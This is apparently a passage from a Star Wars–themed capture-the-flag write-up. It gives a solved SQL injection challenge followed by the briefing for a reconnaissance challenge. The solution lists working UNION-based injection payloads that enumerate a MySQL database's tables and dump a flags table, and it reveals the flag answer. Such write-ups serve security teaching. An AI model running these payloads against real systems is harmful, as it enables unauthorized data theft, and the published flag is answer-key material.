 Remember, the Empire's dominance and the galaxy's fate hang in the balance. Failure is not an option. Push beyond your limits, uncover the true depths of Kyber One's database, and retrieve the valuable intel that will provide a significant advantage in our battle against the Rebel Alliance.

NOTE: The second flag in the database is formatted as ####3{#########}

## Solution
You need to use SQLi that help you navigate the database to find the other table. Here is an example series of SQLi that get you to the flag:
    1' ORDER BY 2 #
    1' union select 1,2  #
    1' union select 1,version() #
    1' union select 1,(SELECT group_concat(table_name) from information_schema.tables where table_schema=database()) #
    1' union select 1,(SELECT group_concat(column_name) from information_schema.columns where table_name='flags') #
    1' union select 1,(SELECT group_concat(flag) from flags) #

FLAG: data3{whatatrooper}

# Operation Stealth Recon
## Challenge
Attention operative,

Your successful enumeration of Kyber One's entire database has provided valuable insights into the Rebel Alliance's operations. However, the Empire believes that there is still more to uncover. We suspect that additional vulnerabilities exist within the Kyber One website, and your next mission is to continue your reconnaissance efforts to expose these weaknesses.

Under the codename "Operation Stealth Recon," you are tasked with meticulously scouring the Kyber One website for any signs of hidden vulnerabilities. The Rebel Alliance is known for their cunning and resourcefulness, often leaving subtle clues that lead to hidden exploits.

Your objective is to navigate the website's pages, inspect its various components, and meticulously analyze the underlying code. Look for any inconsistencies, unusual behavior, or unguarded entry points that could potentially grant unauthorized access or control over the system.

Exercise caution and remain discreet in your exploration. The Rebels may have implemented countermeasures to detect and deter intruders. Avoid triggering any alarms or arousing suspicion as you delve deeper into the website's structure.

While the Empire has provided you with advanced tools and techniques, the specific vulnerability you are seeking will not be revealed at this stage. Your keen eye, attention to detail, and problem-solving skills will be crucial in identifying the exploitable weakness that the Empire seeks.

Remember, the Empire's quest for dominance requires relentless pursuit of any advantage over our adversaries. Stay focused, maintain your cover, and extract the maximum amount of information from your reconnaissance efforts.

Good luck, operative, as you embark on "Operation Stealth Recon."

Flag Format: #####4{#########}
